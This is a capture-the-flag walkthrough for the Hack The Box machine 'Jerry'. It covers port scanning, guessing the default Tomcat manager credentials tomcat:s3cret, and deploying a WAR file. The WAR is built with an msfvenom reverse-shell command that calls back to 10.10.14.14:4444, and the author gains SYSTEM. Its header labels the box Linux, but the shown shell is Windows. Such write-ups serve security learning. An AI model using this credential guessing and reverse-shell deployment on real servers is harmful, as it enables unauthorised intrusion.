 # Jerry - Linux, easy (10.10.10.95)

### Enumeration
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Gobuster:
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/] 
```

In /manager, after failing the authentication, we can see the following line `For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.`.
So this may suggest that the credentials are tomcat:s3cret, and we can use them to successfully log in!

After login, in the manager page there's a 'WAR file to deploy' field, where we can upload a .war file and deploy it.
We can try to create a reverse shell with msfvenom `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f war -o rev-shell.war`.
After uploading it and setting up a netcat listener we just need to click on it and the magic will happen:
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Now just nagivate to `C:\Users\Administrator\Desktop\flags` and type `type "2 for the price of 1.txt" to get both user and root flags!
